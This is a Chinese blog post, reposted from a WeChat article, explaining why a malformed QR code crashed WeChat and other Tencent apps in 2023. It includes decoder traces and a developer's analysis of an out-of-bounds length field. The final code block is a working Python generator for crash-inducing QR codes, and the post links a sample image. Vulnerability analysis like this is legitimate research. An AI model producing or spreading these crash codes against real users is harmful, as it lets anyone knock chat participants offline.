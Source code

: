 ```yaml
---
title: The reason for the QR code crash
description: 扫码崩溃的原因，附源码分析
date: 2023-04-25T13:00:00.000+00:00
lang: zh
duration: 10min
plum: true
---
```


> 原文转自:[扫码崩溃的原因，附源码分析](https://mp.weixin.qq.com/s/JKDOTIvJqGVPLmXP3BK5rQ)

**近日**，网传微信识别上方二维码就会出现闪退BUG，我也也忍不住尝试了一下，果然，一识别该二维码微信立马就出现了闪退的现象；且会出现“微信运行异常，建议前往软件商店更新至最新版本”的提示。

随后，我又对该二维码进行了转发测试，亦是如此，将二维码转发给好友后微信又出现闪退情况；在手机微信中无需识别，仅仅是点击该二维码，微信就会出现闪退；

在微信电脑端，小编测试发现苹果电脑点击该二维码同样会出现闪退现象，但是 Windows 10 测试则正常无闪退。

目前该二维码除了导致闪退外未发现其他副作用。

对于此次闪退事件，有网友发文解释称：目前微信闪退崩溃是因为 OCR 识别系统出现了内存崩溃导致的，这个图片导致了微信内存泄漏，所以会闪退崩溃。闪退问题不会涉及个人隐私问题和封号和资金泄漏问题，目前该功能已经在加急加班的修复中。
![知情人士截图](https://i.328888.xyz/2023/04/25/ioT4Td.md.jpeg)

不过上述对于微信闪退的解释也只是网友观点，截止发稿，腾讯官方还未公开回应。前面有提到，由于这张二维码图片导致内存泄漏，进而引发微信闪退。而造成此问题的根源是 “微信二维码引擎”——它会自动识别聊天列表中的二维码

当用户打开聊天列表，微信二维码引擎识别到这张二维码的时候出现了空指针异常，导致二维码模块崩溃

最终 “祸及” 整个微信客户端

另外，不只是微信，其他腾讯系的软件如果使用了同样的二维码引擎，应该都有这个问题。参考此issue的反馈
[issue](https://github.com/opencv/opencv_contrib/issues/3478)
[![ioT2ep.md.png](https://i.328888.xyz/2023/04/25/ioT2ep.md.png)](https://imgloc.com/i/ioT2ep)

从公开的资料可知，该引擎已在 2021 年开源，并合并到了 OpenCV。
[开源地址](https://github.com/WeChatCV)
OpenCV 全称为 Open Source Computer Vision Library，是一个跨平台的开源计算机视觉和机器学习软件库，可用于开发实时的图像处理、计算机视觉以及模式识别程序。

根据开发者的分析，引发微信闪退的二维码属于 “畸形二维码”，这类二维码包含的错误数据块会导致微信二维码模块中的 libqbar.so 崩溃，进而引发软件闪退。

---

## 下面内容来自开发者的分析：

这是一张用微信扫描就会 crash 的二维码，应该是微信 OCR 的实现有问题，以及如果发在群聊里可能会导致群聊的人都闪退（因为微信会自动识别二维码）
UPDATE: 腾讯系的软件应该都有这个问题
感觉主要出锅的地方在：

```shell
[0100] [00000001] []
Mode Indicator : 8-bit Mode (0100)
Character Count Indicator : 1
Decoded data :
```

因为队友说似乎是 null deref，直接遍历解码到后期的时候发现了以下的问题，填充和 RS 在这样的扫描下直接被吃掉了：

```shell
{value: '00000001', type: 'Char. count indicator', decoded: 1, modules: Array(8)}
{value: '10011111', type: 'Message data', decoded: '\x9F', modules: Array(8)}
{value: '0000', type: 'Mode indicator', decoded: 'Terminator', modules: Array(4)}
{value: '0010', type: 'Mode indicator', decoded: 'Alphanumeric mode', modules: Array(4)}
{value: '100111001', type: 'Char. count indicator', decoded: 313, modules: Array(9)}
{value: '01100111100', type: 'Message data', decoded: 'II', modules: Array(11)}
{value: '01100010011', type: 'Message data', decoded: 'HM', modules: Array(11)}
{value: '10100001110', type: 'Message data', decoded: 'SY', modules: Array(11)}
{value: '00110010000', type: 'Message data', decoded: '8+', modules: Array(11)}
{value: '01110011111', type: 'Message data', decoded: 'KR', modules: Array(11)}
{value: '01101010111', type: 'Message data', decoded: 'J0', modules: Array(11)}
{value: '01110100010', type: 'Message data', decoded: 'KU', modules: Array(11)}
{value: '10000011011', type: 'Message data', decoded: 'NG', modules: Array(11)}
{value: '11101010111', type: 'Message data', decoded: '-Y', modules: Array(11)}
{value: '1101', type: 'Message data', decoded: '0D', modules: Array(4)}
{value: '', type: 'Message data', decoded: NaN, modules: Array(0)}
{value: '', type: 'Message data', decoded: NaN, modules: Array(0)}
```

提取出的数据来看，在到达最后一个 8-bit Mode 后是一个不可见字符 \x9f 和正常的终止符号，但在之后本应该是 padding 的 11101100 和 11101100 却不见了踪迹，后续的 block 恰好被解析为了 Alphanumeric mode，长度块标准为 9 bit，并且读取出其长度为 313，导致后续的数据被解析为了奇怪的内容，并且直接开始越界解析。

但是尝试复现并未成功构造一个可以被微信复现的二维码，并且 qrazybox 也被这样的长度标识欺骗了，但是在上面的例子里并没有，似乎整个问题比想象的复杂：

```shell
Final data bits :
00101111111110000101110100010001010001110011000010100000111011000001000111101100000100011110110000010001111011000001000111101100
[0010] [111111111] [0000101110100010001010001110011000010100000111011000001000111101100000100011110110000010001111011000001000111101100]
Mode Indicator : Alphanumeric Mode (0010)
Character Count Indicator : 511
Decoded data : 2333AA76%J5L1QVFA.380Cundefinedundefinedundefinedundefinedundefined……
Final Decoded string : 2333AA76%J5L1QVFA.380C
```

忽略了一个核心问题，这个二维码的数据区已经被完全填满（224 bit），解码器可能会因为遇到 padding pattern 而提前 break，打算再去构造一下。
构造成功了，成功让微信崩溃了！几个要点：

1. 数据需要绝对无填充，不可以出现 padding pattern
2. 最后一个 block 的记录长度要尽可能的长，与什么模式无关

理论上只要能够找到合适的 data block 组合，恰好填充满二维码的容量，并在最后一个 0 长 block 中写入一个越界的长度，并保证上述所有数据 RS 纠错码生成正确，就可以实现崩溃了。
附上复现用的代码，可根据任意文本内容构造畸形二维码：

```python
import qrcode
from qrcode.util import QRData, MODE_8BIT_BYTE

NUM_BLOCKS = [19, 34, 55, 80, 108, 136, 156, 194, 232]

def tencent_crash_qrcode(message: str, filename='crash.png'):

    def hack_put(self, num, length):
        if num == 0:
            num = 1
        for i in range(length):
            self.put_bit(((num >> (length - i - 1)) & 1) == 1)

    data = message.encode('utf-8')
    data_len = len(data)

    version = 1
    while version <= len(NUM_BLOCKS) and data_len + 3 > NUM_BLOCKS[version-1]:
        version += 1
    if version > len(NUM_BLOCKS):
        raise Exception('message too long')

    data += b' ' * (NUM_BLOCKS[version-1] - data_len - 3)

    print(data_len, version)
    qr = qrcode.QRCode(version, qrcode.constants.ERROR_CORRECT_L)

    comm_data = QRData(data, MODE_8BIT_BYTE)
    hack_data = QRData(b'', MODE_8BIT_BYTE)

    qr.add_data(comm_data, 0)
    qr.add_data(hack_data, 0)

    original_put = qrcode.util.BitBuffer.put
    qrcode.util.BitBuffer.put = hack_put
    qr.make_image().save(filename)
    qrcode.util.BitBuffer.put = original_put

tencent_crash_qrcode('KFCVW50')
```

**最后**，附上一个通过脚本生成的畸形二维码。
[![ioTjB3.th.png](https://i.328888.xyz/2023/04/25/ioTjB3.th.png)](https://imgloc.com/i/ioTjB3)
